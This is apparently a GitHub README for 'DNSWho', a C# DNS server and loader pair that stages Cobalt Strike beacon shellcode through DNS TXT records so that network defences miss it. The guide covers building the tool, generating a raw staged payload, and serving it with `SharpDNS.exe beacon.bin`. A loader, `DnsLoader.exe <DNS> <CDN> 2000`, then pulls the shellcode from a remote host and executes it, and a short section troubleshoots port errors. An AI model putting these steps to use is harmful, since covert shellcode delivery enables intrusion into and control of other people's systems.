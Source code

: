 # DNSWho

Implement a dns server = SharpDNS.exe             
Implement a "client" = DnsLoader.exe               

Compared with the http protocol, the dns protocol has better concealment. Analogous to the dns beacon of cs, we can implement a dns server to transmit shellcode by ourselves. C# has an excellent third-party library [ARSoft.Tools.Net](https://www.nuget.org/packages/ARSoft.Tools.Net/). We can use it for dns query and self-built dns server.               

Create a new console project of .net4.0 and install ARSoft.Tools.Net. Because of the .net version problem, we need to install the lower version of ARSoft.Tools.Net. [`Install-Package ARSoft.Tools.Net -Version 1.8.2`](https://www.nuget.org/packages/ARSoft.Tools.Net/1.8.2)            


![image](https://user-images.githubusercontent.com/25066959/104516114-d1b0b500-55c1-11eb-8bb5-98e9437d8775.png)             

So generate a raw cs payload if you are smart you wont make it stageless because it will be way to big.                 

![image](https://user-images.githubusercontent.com/25066959/104516517-78955100-55c2-11eb-99ce-2d8a5daf6e9a.png)                       

Then spinup the DNS server and make sure that the length is the same in wireshark as the one displayed in the terminal. `SharpDNS.exe beacon.bin`                       
The output will look like the following:                

![image](https://user-images.githubusercontent.com/25066959/105061777-e4a30980-5a47-11eb-906f-cdc712b8ae01.png)            

![image](https://user-images.githubusercontent.com/25066959/104516603-a24e7800-55c2-11eb-9805-fc644b49b11b.png)                         

then simply catch it `DnsLoader.exe <DNS> <CDN> 2000`                   

Note that the txt parsing of dns cannot be transmitted too much at a time, and the 2000 used in my test so that there is no problem.                    

![image](https://user-images.githubusercontent.com/25066959/104516478-61eefa00-55c2-11eb-90fd-74655d9c47fe.png)                      

Tada...                   

![image](https://user-images.githubusercontent.com/25066959/104516815-f48f9900-55c2-11eb-8175-7df4d4bbaedf.png)            



-----

### Having Issues?     

If you get the following error this is because youre not running this on the same machine as your DNS. That is because svchost.exe listens to UDP53

![image](https://user-images.githubusercontent.com/25066959/104516892-1d179300-55c3-11eb-91e6-92c9c5aa2884.png)

Additionally dont try to change the port for the `DnsServer` because you cant:

![image](https://user-images.githubusercontent.com/25066959/104517202-9c0ccb80-55c3-11eb-895c-0d6ae9e45dd2.png)

![image](https://user-images.githubusercontent.com/25066959/104517231-ac24ab00-55c3-11eb-828e-7feb1e16d003.png)
